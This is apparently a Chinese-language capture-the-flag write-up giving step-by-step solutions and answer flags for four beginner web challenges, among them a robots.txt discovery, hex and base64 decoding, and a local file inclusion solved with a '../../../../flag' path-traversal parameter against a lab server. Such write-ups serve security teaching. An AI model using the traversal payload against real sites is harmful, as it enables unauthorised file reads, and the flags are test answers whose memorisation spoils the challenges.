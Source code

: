 # Web101

## Web-1:source code

解題步驟1:按下鍵盤F12/滑鼠右鍵=>檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-1.png)

解答:

>BreakALLCTF{3xjVYR8dMetWQbwzYsLJ}


## web-2:Robots.txt

解題步驟1:在網址後方打上/robots.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(1).png)

解題步驟2:按下Enter後，出現文字<br>
User-agent: *
Disallow: /images
Disallow: /secret
==>在網址後方打上/secret

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(2).png)
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(3).png)

解題步驟3:點下flag.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(4).png)

解題步驟4:hex to string

>echo 516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939 | xxd -r -p

解題步驟5:base64 decode

>echo QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99 | base64 --decode
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(5).png)

解答:

>BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}

也可使用線上解碼工具:
>https://codebeautify.org/hex-string-converter<br>
>https://www.base64decode.org/<br>


## Web-3:Curl-1

解題步驟1:在'GO!'圖示上按下滑鼠右鍵檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(1).png)

解題步驟2:發現網頁index.php
==>使用curl工具

>curl http://120.114.62.89:2014/index.php
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(2).png)

解答:

>BreakALLCTF{91YODwgPD58gpC4H9AeD}


## web-5:Local File Inclusion

解題步驟1:從最底層的資料夾找起

>http://120.114.62.89:2003/index.php?page=flag

解題步驟2:再往上層資料夾尋找

>http://120.114.62.89:2003/index.php?page=../flag

解題步驟3:最終在第四層資料夾找到

>http://120.114.62.89:2003/index.php?page=../../../../flag
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-5.png)

解答:

>BreakALLCTF{887cs9oKULT0lvtY2bVu} 
